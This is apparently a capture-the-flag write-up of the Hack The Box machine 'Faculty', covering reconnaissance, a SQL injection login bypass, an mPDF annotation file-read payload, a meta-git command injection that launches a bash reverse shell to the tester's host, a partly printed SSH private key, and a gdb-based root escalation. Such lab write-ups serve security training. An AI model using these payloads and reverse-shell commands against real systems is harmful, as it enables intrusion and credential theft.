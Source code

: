 Hello and welcome back to another write up. This one will be for box Faculty from Hackthebox. Without
further adue let's get to it. 

We will start with nmap scan. 

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-28 13:51 EDT
Nmap scan report for 10.10.11.169 (10.10.11.169)
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
We have two open ports - 80 which is http and 22 which is ssh. There is not much we can do with ssh so we will focus
on port 80 for now. Nmap shows us hostname faculty.htb so we will add to our `/etc/hosts` file with command 
`echo "10.10.11.169 faculty.htb" >> /etc/hosts`. Now let's visit the page itself. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_web.png?raw=true)

We are presented with login page that runs php. Now we will start feroxbuster
to brute force directories. With knowledge that it is php we will run it with flag that specifies just that. 

```
302      GET      359l      693w        0c http://faculty.htb/ => login.php
301      GET        7l       12w      178c http://faculty.htb/admin => http://faculty.htb/admin/
500      GET        0l        0w        0c http://faculty.htb/test.php
200      GET      132l      235w        0c http://faculty.htb/login.php
200      GET      175l      311w        0c http://faculty.htb/admin/login.php
200      GET        1l        0w        0c http://faculty.htb/admin/download.php
301      GET        7l       12w      178c http://faculty.htb/admin/database => http://faculty.htb/admin/database/
301      GET        7l       12w      178c http://faculty.htb/admin/assets => http://faculty.htb/admin/assets/
200      GET        0l        0w        0c http://faculty.htb/admin/ajax.php
301      GET        7l       12w      178c http://faculty.htb/admin/assets/js => http://faculty.htb/admin/assets/js/
200      GET       70l      105w        0c http://faculty.htb/admin/users.php
200      GET      106l      167w        0c http://faculty.htb/admin/home.php
-----redacted-----
```

There are many pages but for now let's focus on the default one. If I try to guess id it says that it is invalid. 
we will workaround that and try sql injection. With the simpliest `'or 1=1-- -` we get in. We also get PHPSESSID cookie.
There is nothing interesting. So time to move to admin directory which was found from feroxbuster. 

FACULTY ADMIN IMAGE

It is some type of management system. First thing that I noticed is the export functionality because these aren't common
in ctfs if they don't have a purpose. It creates pdf and saves it on the server. Let's download it and find out if there isn't 
any interesting info about how it is created. For this I used exiftool but there many ways to find this out.

```
# exiftool OKLZOtslJv4TycbW8Xaf50HxIV.pdf 
ExifTool Version Number         : 12.44
File Name                       : OKLZOtslJv4TycbW8Xaf50HxIV.pdf
Directory                       : .
File Size                       : 1742 bytes
File Modification Date/Time     : 2022:10:28 16:23:26-04:00
File Access Date/Time           : 2022:10:28 16:23:26-04:00
File Inode Change Date/Time     : 2022:10:28 16:23:26-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Page Layout                     : OneColumn
Producer                        : mPDF 6.0
Create Date                     : 2022:10:28 21:22:02+01:00
Modify Date                     : 2022:10:28 21:22:02+01:00
```

The important thing to note here is the producer - mPDF 6.0. When I first tried to search for vulnerabilities for this version
I couldn't find anything. After that I resorted to looking at github page for this project. After a tidious work we find this
issue(https://github.com/mpdf/mpdf/issues/356) talking about LFI vulnerability caused by injecting annotation tag when generating pdf. (With payload below)

```
 <annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

This looks useful to us. Now we will catch the burpsuite request and change the contents of the request to this payload. 
We see that the parameter payload gets base64 encoded before it gets send. 

BURP IMAGE 1

This can be done numerous ways - cyberchef, commandline
or in burp itself. The final request looks like this:

BURP IMAGE 2

At first sight it looks like it didn't work but when we look at the attachements on the left there is a passwd which is the file 
we wanted. 

PDF IMAGE 1

Now using the same method but changing the file name in payload we will get the source code for the application. We will start with `index.php`. 

SOURCE 1 IMAGE

Now we will download the `login.php` (found in feroxbuster on in the `index.php` file). This one shows 
`include('./db_connect.php');` this looks promising as it is likely to leak some creadentials and as we find out it does. 

DB CONNECT IMAGE

We have now have password which we can try to use with ssh. But to which user does it belong to ? We have users
that are on the box in passwd file we got earlier. Let's grep for users with `/bin/bash` shell.

```
# cat passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash

```

If we try one by one we find that it works for the user gbyolo. Running `sudo -l` as first thing shows us that
we have permission to run meta-git as developer user. 

```
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

Meta-git isn't on gtfo bins so we have to look somewhere how to weaponize it. I found this hackerone report - 
https://hackerone.com/reports/728040. With this I'll create bash shell and put it in /tmp/shell.sh

```
gbyolo@faculty:/tmp$ cat shell.sh 
bash -i >& /dev/tcp/10.10.14.141/4242 0>&1
```

Set up a nc listener and run command `sudo -u developer /usr/local/bin/meta-git clone 'sss||bash /tmp/shell.sh'` and we have
connection at our netcat. I could upgrade our shell but since developer has .ssh directory with id_rsa in it, I can just
use that and use it to connect to the box.

```
developer@faculty:~/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxDAgrHcD2I4U329//sdapn4ncVzRYZxACC/czxmSO5Us2S87dxyw
izZ0hDszHyk+bCB5B1wvrtmAFu2KN4aGCoAJMNGmVocBnIkSczGp/zBy0pVK6H7g6GMAVS
pribX/DrdHCcmsIu7WqkyZ0mDN2sS+3uMk6I3361x2ztAG1aC9xJX7EJsHmXDRLZ8G1Rib
KpI0WqAWNSXHDDvcwDpmWDk+NlIRKkpGcVByzhG8x1azvKWS9G36zeLLARBP43ax4eAVrs
Ad+7ig3vl9Iv+ZtRzkH0PsMhriIlHBNUy9dFAGP5aa4ZUkYHi1/MlBnsWOgiRHMgcJzcWX
OGeIJbtcdp2aBOjZlGJ+G6uLWrxwlX9anM3gPXTT4DGqZV1Qp/3+JZF19/KXJ1dr0i328j
saMlzDijF5bZjpAOcLxS0V84t99R/7bRbLdFxME/0xyb6QMKcMDnLrDUmdhiObROZFl3v5
-----snip snip-----
```

Now I downloaded copy of linpeas from my python server. 
```
developer@faculty:/tmp$ wget http://10.10.14.132:8000/linpeas.sh                                                                   
--2022-11-01 20:25:54--  http://10.10.14.132:8000/linpeas.sh
Connecting to 10.10.14.132:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776073 (758K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                  100%[========================================================================================================================================>] 757.88K  1.04MB/s    in 0.7s    

2022-11-01 20:25:54 (1.04 MB/s) - ‘linpeas.sh’ saved [776073/776073]

developer@faculty:/tmp$ chmod +x linpeas.sh 
developer@faculty:/tmp$ ./linpeas.sh 

```

We find this
```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb                                                                                                                                                                                    
```
No we need to find process to attach to gdb. 
```
developer@faculty:/tmp$ ps -aux | grep root
```
After few tries I found that this can be used:
```
root         729  0.0  0.9  26896 18220 ?        Ss   21:22   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers

```
I attach it to gdb with 
```
gdb -p <PID>
```
(in my case 729).
Now I found that to call function from gdb (https://www.zeuthen.desy.de/dv/documentation/unixguide/infohtml/gdb/Calling.html) you can use `call $expr`
So the final exploit looks like this:

```
developer@faculty:/tmp$ gdb -p 729
(gdb) call ("chmod +s /bin/bash")

```
This makes bash setuid and with tag -p it keeps permission so I get root shell.

```
developer@faculty:/tmp$ ls -la /bin/bash
-rwsr-s--x 1 root root 1183448 Apr 18  2022 /bin/bash
developer@faculty:/tmp$ /bin/bash -p
bash-5.0# id
uid=1001(developer) gid=1002(developer) euid=0(root) egid=0(root) groups=0(root),1001(debug),1002(developer),1003(faculty)
bash-5.0# cat /root/root.txt
887e---redacted-------
```
This wraps up the box.
Thank you for reading this write up. If you have any questions, feedback or suggestion or just want to play ctfs with someone you can reach out to me at
https://twitter.com/Vojtech1337